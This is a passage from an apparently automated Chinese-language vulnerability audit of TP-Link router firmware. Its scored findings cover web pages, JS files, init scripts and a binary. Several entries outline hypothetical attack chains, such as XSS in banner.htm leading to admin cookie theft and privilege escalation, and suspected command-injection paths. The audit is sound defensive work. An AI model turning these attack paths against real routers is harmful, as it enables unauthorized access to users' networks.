- **关键词:** $.curPage, exec($.curPage), switch(/(\w+).htm$, softup, demorpm
- **备注:** 实际风险取决于softup分支的固件升级实现。需关联分析：1) HTML文件如何设置$.curPage 2) softup.htm页面的命令执行逻辑 3) status分支的lanArg/wanArg网络配置操作

---
### verification-js_lib_implementation

- **文件路径:** `web/frame/banner.htm`
- **位置:** `web/js/lib.js (待定位)`
- **类型:** configuration_load
- **综合优先级分数:** **5.95**
- **风险等级:** 8.5
- **置信度:** 1.0
- **触发可能性:** 7.0
- **查询相关性:** 9.5
- **阶段:** N/A
- **描述:** 需紧急验证lib.js的函数实现：1) 确认$.h是否等效innerHTML 2) 检查$.desc/$.model参数传递路径。若验证成立，则与banner.htm漏洞形成完整攻击链：攻击者构造恶意网络输入→MenuRpm.htm加载污染资源→banner.htm执行XSS→窃取管理员cookie→触发loadMenu权限提升。
- **代码片段:**
  ```
  N/A (文件访问受限)
  ```
- **关键词:** lib.js, $.h, innerHTML, $.loadMenu, dynamic_content
- **备注:** 关联漏洞链：1) xss-banner_dynamic_content-1 2) web-framework-dynamic-resource-loading。关键约束：目录访问限制阻碍分析，需优先解除限制或通过其他途径获取lib.js

---
### web-framework-dynamic-resource-loading

- **文件路径:** `web/MenuRpm.htm`
- **位置:** `web/MenuRpm.htm`
- **类型:** network_input
- **综合优先级分数:** **5.9**
- **风险等级:** 3.0
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 7.5
- **阶段:** N/A
- **描述:** 该文件作为路由器Web界面框架，通过$.loadMenu动态加载menu.htm并引用多个JS文件。虽无直接输入处理，但加载的外部资源(特别是lib.js和menu.htm)可能包含HTTP参数处理点，构成攻击路径入口。触发条件：用户访问Web界面时自动加载这些资源；安全影响：若被引用文件存在输入验证缺陷，可导致XSS或命令注入。
- **关键词:** $.loadMenu, lib.js, menu.htm, oid_str.js, str.js
- **备注:** 需优先分析：1) lib.js中的loadMenu实现及输入处理 2) menu.htm的表单/API端点 3) str.js的字符串处理函数。攻击路径可能：用户输入→lib.js未验证参数→危险操作

---
### network_input-ushare-dynamic_port

- **文件路径:** `etc/ushare.conf`
- **位置:** `etc/ushare.conf:10`
- **类型:** network_input
- **综合优先级分数:** **5.7**
- **风险等级:** 4.0
- **置信度:** 9.0
- **触发可能性:** 5.0
- **查询相关性:** 6.0
- **阶段:** N/A
- **描述:** USHARE_PORT未设置导致使用IANA动态端口(49152-65535)。虽然增加扫描难度，但端口范围仍可被探测。未指定固定端口阻碍精准防火墙策略配置。触发条件：攻击者进行端口扫描识别服务。实际影响：轻微增加攻击复杂度但不构成实质防御。
- **代码片段:**
  ```
  USHARE_PORT=
  ```
- **关键词:** USHARE_PORT

---
### network_input-top.htm-custom_js_ref

- **文件路径:** `web/frame/top.htm`
- **位置:** `web/frame/top.htm`
- **类型:** network_input
- **综合优先级分数:** **5.65**
- **风险等级:** 3.5
- **置信度:** 9.0
- **触发可能性:** 6.0
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 文件未包含直接攻击面（表单/输入字段缺失），但通过<script src='../js/custom.js'>引入外部JS。该JS文件可能处理设备型号数据（window.parent.$.model）和网站跳转逻辑（NewW函数）。若custom.js存在漏洞（如未验证的URL参数），攻击者可能通过构造恶意链接触发XSS或命令注入。
- **关键词:** custom.js, window.parent.$.model, NewW, our_web_site
- **备注:** 关键攻击路径取决于custom.js的实现：1) NewW函数若未验证URL参数可能导致XSS；2) 设备型号数据若来自未经验证的NVRAM可能引入注入；需验证custom.js中NewW函数对location.href参数过滤机制

---
### cmd-cos-unknown

- **文件路径:** `etc/init.d/rcS`
- **位置:** `rcS:47`
- **类型:** command_execution
- **综合优先级分数:** **5.5**
- **风险等级:** 6.0
- **置信度:** 5.0
- **触发可能性:** 5.0
- **查询相关性:** 6.0
- **阶段:** N/A
- **描述:** 未知后台服务 cos 启动：执行 'cos &' 启动未经验证的后台服务。该服务可能处理网络/IPC 输入，但缺乏路径和参数信息。若存在输入验证缺陷（如命令注入），可被用于攻击链扩展。触发条件：服务启动后接收外部输入。约束条件：服务持续运行。潜在影响：远程代码执行或权限绕过。
- **代码片段:**
  ```
  cos &
  ```
- **关键词:** cos
- **备注:** 需定位 cos 二进制并分析其输入处理逻辑

---
### config-oid_str.js-global_vars

- **文件路径:** `web/js/oid_str.js`
- **位置:** `web/js/oid_str.js:1-560 (全局变量声明)`
- **类型:** configuration_load
- **综合优先级分数:** **3.65**
- **风险等级:** 0.5
- **置信度:** 10.0
- **触发可能性:** 2.0
- **查询相关性:** 3.0
- **阶段:** N/A
- **描述:** 文件仅声明全局配置变量，无执行逻辑。具体表现：1) 无URL参数解析等输入处理点 2) 无eval/innerHTML等危险函数 3) 无API调用或数据存储操作。触发条件：不适用，因无代码执行路径。安全影响：文件本身无直接可利用漏洞，但定义的配置标识（如MANAGEMENT_SERVER）可能在其他组件中被用于系统配置。若攻击者能篡改这些标识符对应的后端实现（如通过环境变量或API），可能间接引发未授权访问或配置篡改。
- **关键词:** IGD, MANAGEMENT_SERVER, UPNP_CFG, CWMP_CFG, FIREWALL, USER_ACCOUNT
- **备注:** 关键后续方向：1) 在web服务组件中追踪linking_keywords的使用（如检查MANAGEMENT_SERVER是否用于未验证的API端点）2) 分析nvram_get/nvram_set操作是否涉及这些标识符

---
### xss-banner_dynamic_content-1

- **文件路径:** `web/frame/banner.htm`
- **位置:** `banner.htm:10-14`
- **类型:** network_input
- **综合优先级分数:** **3.3**
- **风险等级:** 4.0
- **置信度:** 3.0
- **触发可能性:** 2.0
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 文件存在潜在XSS漏洞点：使用$.h函数动态设置元素内容，传入$.desc和$.model变量。触发条件：1) 非中文环境($.cn=false) 2) 污染数据通过$.desc/$.model传递。若验证$.h等效innerHTML且变量被外部输入污染，可构成XSS攻击链初始节点。实际风险依赖：a) 变量污染路径验证 b) $.h函数实现分析
- **代码片段:**
  ```
  $.h($.id('mname'), '' + $.desc);
  $.h($.id('mnum'), m_str.bannermodel + $.model);
  ```
- **关键词:** $.h, $.desc, $.model, m_str.bannermodel, $.id, innerHTML
- **备注:** 关键证据缺失：1) 父页面未定位导致无法追踪$.对象数据源 2) 目录限制无法访问web/js验证$.h实现。知识库关联记录：XSS漏洞可能结合lib.js的loadMain漏洞形成cookie窃取→权限提升攻击链（参见notes字段相关记录）

---
### web-help-sensitive-field-exposure

- **文件路径:** `web/js/help.js`
- **位置:** `web/js/help.js`
- **类型:** configuration_load
- **综合优先级分数:** **3.25**
- **风险等级:** 0.5
- **置信度:** 10.0
- **触发可能性:** 0.0
- **查询相关性:** 7.5
- **阶段:** N/A
- **描述:** 文件仅包含静态HTML格式的路由器配置帮助文本，无代码执行逻辑。具体表现：1) 所有内容为预定义字符串 2) 无用户输入处理点 3) 无动态函数调用。触发条件：无外部可控触发路径。约束条件：纯前端展示文本。安全影响：无直接可利用风险，但包含的密码字段名可能被用于社会工程攻击。
- **关键词:** User Name, Password, PSK Password, Radius Server Password, Confirm Password, openWindow1, openWindow2
- **备注:** 需检查openWindow1/openWindow2的实现文件是否安全。暴露的密码字段名（如Radius Server Password）可能被攻击者用于社会工程攻击或配置枚举

---
### network_input-auth_error_page-cookie_clear

- **文件路径:** `web/frame/accErr.htm`
- **位置:** `web/frame/accErr.htm`
- **类型:** network_input
- **综合优先级分数:** **3.21**
- **风险等级:** 0.5
- **置信度:** 9.8
- **触发可能性:** 0.1
- **查询相关性:** 3.5
- **阶段:** N/A
- **描述:** 静态登录错误处理页面，核心行为：1) 页面加载时自动执行deleteCookie函数清除'Authorization'认证cookie，这是合理的会话终止机制；2) 显示固定错误提示文本，包含设备物理重置指引（需按住复位键8-10秒）。无用户输入参数处理，无动态内容生成，未引用外部资源。触发条件仅限于用户访问该页面，无法被外部输入污染或利用。
- **关键词:** deleteCookie, Authorization, body.onload, document.cookie, document.location.reload
- **备注:** 设备重置指引可能被用于物理拒绝服务攻击，但非本页面漏洞。建议检查其他涉及认证处理的动态页面（如登录表单）是否存在cookie处理缺陷。

---
### internal_monitor-diskstats_monitor-0x004006e0

- **文件路径:** `sbin/usbp`
- **位置:** `main @ 0x004006e0`
- **类型:** file_read
- **综合优先级分数:** **3.16**
- **风险等级:** 0.5
- **置信度:** 9.5
- **触发可能性:** 0.3
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** 程序实质是磁盘状态监控工具，无USB数据处理功能：1) 输入源仅为可信系统文件/proc/diskstats 2) 输出通道为物理串口/dev/ttyS0 3) 无网络/USB等外部输入接口。触发条件：仅当攻击者能篡改/proc伪文件系统或物理访问串口时才可能影响程序，但前者需root权限后者需物理接触，实际攻击面极低。
- **代码片段:**
  ```
  iVar4 = fopen("/proc/diskstats", "r");
  fgets(auStack_128, 0x100, iVar4);
  ```
- **关键词:** rdp_updateUsbInfo, /proc/diskstats, /dev/ttyS0, dm_shmInit, fgets
- **备注:** rdp_updateUsbInfo函数需通过动态分析验证；dm_shmInit共享内存操作可能成为与其他组件交互点，建议后续分析调用该共享内存的组件。结论：当前文件未发现可利用攻击路径，建议转向分析其他暴露外部接口的文件（如www目录下的CGI程序）

---
### static_content-web-indexhtm-0001

- **文件路径:** `web/index.htm`
- **位置:** `web/index.htm:0 (global) 0x0`
- **类型:** static_content
- **综合优先级分数:** **3.0**
- **风险等级:** 0.0
- **置信度:** 10.0
- **触发可能性:** 0.0
- **查询相关性:** 8.0
- **阶段:** N/A
- **描述:** web/index.htm文件被确认为纯框架集文件，不具备任何用户输入接口或网络请求功能。具体表现：1) 无<form>标签，无法提交参数至后端 2) 内联JS仅实现域名重定向（tplinklogin.net → tplinkwifi.net），未调用XMLHttpRequest/fetch API 3) 无HTML注释或隐藏字段泄露敏感信息。该文件无法作为攻击链的初始输入点或数据传播节点。
- **代码片段:**
  ```
  <frameset>...</frameset> <script>if(url.indexOf('tplinklogin.net')>=0){window.location=url.replace('tplinklogin.net','tplinkwifi.net')}</script>
  ```
- **关键词:** frameset, frame, window.location, tplinklogin.net, tplinkwifi.net
- **备注:** 需转向其他目录（如cgi-bin）分析实际网络端点

---
### static-js-err-mapping-err_js

- **文件路径:** `web/js/err.js`
- **位置:** `err.js: entire file`
- **类型:** configuration_load
- **综合优先级分数:** **3.0**
- **风险等级:** 0.0
- **置信度:** 10.0
- **触发可能性:** 0.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 文件仅包含静态错误代码映射对象(e_str)，无DOM操作或输入处理逻辑。错误消息为通用提示(如'Invalid IP address!')，不涉及敏感信息。无外部可控参数，但需验证调用方是否通过eval/dynamic插入不安全使用e_str对象。
- **关键词:** e_str, window.e_str, CMM_ERROR, ERR_HTTP_ERR_GET
- **备注:** 需检查引用此JS的HTML/PHP文件是否安全处理e_str对象（如避免eval注入）。可能关联文件：包含<script src='err.js'>的页面或动态生成JS的CGI脚本。

---
